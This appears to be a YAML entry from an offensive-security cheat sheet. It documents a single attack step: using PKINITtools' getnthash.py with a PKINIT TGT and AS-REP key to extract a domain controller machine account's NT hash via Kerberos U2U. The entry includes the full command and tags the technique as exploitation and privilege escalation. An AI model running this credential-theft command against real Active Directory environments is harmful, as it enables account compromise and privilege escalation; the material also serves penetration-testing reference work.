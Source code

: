 ```yaml
---
description: |
  PKINIT getnthash.py request a TGS for yourself using Kerberos U2U. This will include with the PAC which in turn contains the NT hash that you can decrypt with the AS-REP key that you got from your TGT request using gettgtpkinit.py from PKINIT. Use the TGT from gettgtpkinit.py in your KRB5CCNAME env variable. 

  Command Reference:
  
    Domain: test.local
    
    Host that you got the TGT: DC01
    
    TGT from gettgtpkinit.py: out.ccache
    
    AS-REP key: 6e63333c372d7fbe64dab63f36673d0cd03bfb92b2a6c96e70070be7cb07f773

command: |
  KRB5CCNAME=out.ccache python3 getnthash.py test.local/DC01\$ -key 6e63333c372d7fbe64dab63f36673d0cd03bfb92b2a6c96e70070be7cb07f773
items:
  - TGT
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
references:
- https://github.com/dirkjanm/PKINITtools
- https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/
---
```

